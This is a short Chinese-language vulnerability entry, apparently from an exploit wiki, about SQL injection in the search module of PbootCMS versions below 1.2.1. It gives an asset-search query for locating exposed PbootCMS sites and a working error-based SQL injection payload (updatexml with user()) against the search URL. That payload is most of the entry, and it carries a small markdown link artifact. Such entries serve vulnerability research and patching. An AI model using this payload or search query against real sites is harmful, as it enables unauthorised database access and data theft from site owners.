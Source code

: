 # PbootCMS search SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>PbootCMS < 1.2.1</a-checkbox></br>

## 网络测绘 

<a-checkbox checked>app="PBOOTCMS"</a-checkbox></br>

## 漏洞复现

搜索框页面为

![img](/assets/PeiQi-Wiki/img/image-20210702112736099.png)



Payload为



```plain
/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123)
```



![img](/assets/PeiQi-Wiki/img/image-20210702112805069.png)




